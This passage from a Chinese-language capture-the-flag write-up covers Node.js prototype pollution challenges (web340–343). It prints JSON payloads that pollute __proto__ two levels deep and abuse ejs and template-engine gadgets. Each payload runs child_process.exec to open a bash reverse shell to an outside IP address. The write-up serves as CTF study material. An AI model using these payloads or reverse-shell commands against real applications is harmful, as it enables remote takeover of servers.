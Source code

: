 就算修改了`Object`的`isAdmin`，因为`user.userinfo`里有`isAdmin`,所以不会向上寻找

子类不能污染父类已经存在的属性，只能新增属性。

所以这里构造`query`属性

> 这里需要污染两层
>
> user.userinfo的上级是user，user的上级才是Object

payload

```json
{"__proto__":{"__proto__":{"query":"return global.process.mainModule.constructor._load('child_process').exec('bash -c \"bash -i >& /dev/tcp/119.3.125.218/1234 0>&1\"')"}}
```

### web341

先下一个叫snyk的工具

> ```
> npm install -g snyk
> ```
>
> ```
> snyk auth
> ```
>
> ```
> snyk test
> ```

![image-20240324162648063](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240324162648063.png)

[Snyk 依赖性安全漏洞扫描工具](https://blog.csdn.net/weixin_42176112/article/details/116654787)

有个ejs的rce漏洞

payload

```json
{"__proto__":{"__proto__":{"outputFunctionName":"_tmp1;global.process.mainModule.require('child_process').exec('bash -c \"bash -i >& /dev/tcp/119.3.125.218/1234 0>&1\"');var __tmp2"}}}
```

![image-20240324162805916](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240324162805916.png)



### web342，343

payload

参考链接`https://xz.aliyun.com/t/7025`

```json
{"__proto__":{"__proto__": {"type":"Block","nodes":"","compileDebug":1,"self":1,"line":"global.process.mainModule.require('child_process').exec('bash -c \"bash -i >& /dev/tcp/xxx/810>&1\"')"}}}
```
